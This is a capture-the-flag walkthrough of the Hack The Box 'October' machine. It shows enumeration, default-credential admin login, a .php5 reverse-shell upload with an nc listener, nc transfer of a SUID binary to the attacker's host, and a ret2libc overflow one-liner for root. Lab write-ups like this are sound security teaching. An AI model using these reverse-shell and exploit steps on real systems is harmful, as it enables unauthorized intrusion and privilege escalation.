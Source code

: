 ![logo](/logo.png)

# [October- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 20 Apr 2017 as the 13th machine on HTB,October created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *CMS
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/october 10.10.10.16
```

###### Output 

![](/Linux/Linux-Medium/October/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/october 10.10.10.16                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 20:35 EAT
Nmap scan report for 10.10.10.16
Host is up (0.39s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: October CMS - Vanilla
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.36 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.7`. 

port[22]-ssh
port[80]-http

when we naviagate to [http://10.10.10.16](http://10.10.10.16)  we find a page run a theme for CMS

![](/Linux/Linux-Medium/October/Screenshots/vanilla.png)

I decide to run `gobuster` so that i can revel other directory that can be used to exploit the machine.

```sh
gobuster dir -u http://10.10.10.16 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k
```

![](/Linux/Linux-Medium/October/Screenshots/gobuster.png)

`Gobuster` revels a page module backed and it looks interesting upon viewing an Administrator login page

![](/Linux/Linux-Medium/October/Screenshots/Administrator.png)

Upon trying default password like `admin:admin` i log in to the administrator of the CMs

![](/Linux/Linux-Medium/October/Screenshots/Admin.png)

The media page revel that you can upload a php file beacuse their is a php file uploaded so we would probaly use this to upload a shell.

![](/Linux/Linux-Medium/October/Screenshots/upload.png)

Upon searching I come accross an [exploit](https://www.exploit-db.com/exploits/41936) According to the above exploit, it is possible to upload a file with a `.php5 ` extension and it will bypass the filter. From here it is trivial to obtain a shell on the target. Let upload a reverse shell a default from kali Linux

```sh
locate php-reverse-shell.php
```

Then to copy to working directory

```sh
cp /usr/share/laudanum/php/php-reverse-shell.php .
```

![](/Linux/Linux-Medium/October/Screenshots/phpreverse.png)

![](/Linux/Linux-Medium/October/Screenshots/reverseshell.png)
so we upload this file and set a listner.

```sh
nc -lnvp 1234
```

![](/Linux/Linux-Medium/October/Screenshots/shell.png)

and you can get `user.txt`

![](/Linux/Linux-Medium/October/Screenshots/user.txt.png)

so i run `LinEnum` which is used to determine if their are vunerability on the box [LinEnum](https://github.com/rebootuser/LinEnum)

![](Linux/Linux-Medium/October/Screenshots/LinEnum.png)
Running LinEnum reveals a non-standard SUID binary at `/usr/local/bin/ovrflw`. Passing a large
argument to the binary causes a segmentation fault, and it can be assumed that root is obtained
by exploiting the buffer overflow.

![](/Linux/Linux-Medium/October/Screenshots/overflow.png)

Checksec shows that NX/DEP is enabled. Checking on the target reveals that ASLR is also
enabled. Passing a pattern to the binary in gdb finds that there is 112 bytes before the buffer is
overflowed and the EIP is overwritten.

so lets send the binary to our machine 

```sh
nc -w 5 10.10.14.15 9000 < /usr/local/bin/ovrflw
```

![](/Linux/Linux-Medium/October/Screenshots/nc.png)

![](Linux/Linux-Medium/October/Screenshots/ovflw.png)
Then we check the file to see if it has changed the content we we imported it to our machine.

```sh
md5sum ovrflw
```

![](/Linux/Linux-Medium/October/Screenshots/md5.png)

![](/Linux/Linux-Medium/October/Screenshots/md5sum.png)

The command `ldd /usr/local/bin/overflw | grep libc` will get the libc address of the binary as well as the path to the libc library.

```sh
ldd /usr/local/bin/overflw | grep libc
```

![](/Linux/Linux-Medium/October/Screenshots/libc.png)

The command `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system` will get the system offset for libc.

```sh
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

![](/Linux/Linux-Medium/October/Screenshots/system.png)

The command `strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh` will find the address to reference to call `/bin/sh`.

```sh
strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

![](/Linux/Linux-Medium/October/Screenshots/strings.png)

Using the above information, it is possible to create a script to repeatedly call the binary with a
payload in the following format: `JUNK*112 + libcAddress + JUNK*8 + binShAddress

![](/Linux/Linux-Medium/October/Screenshots/overflow2.png)

Because ASLR is enabled, I’ll do it in a loop until I get a shell:

```sh
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```


You can get the `root.txt` now since we have root privillage

![](/Linux/Linux-Medium/October/Screenshots/root.png)

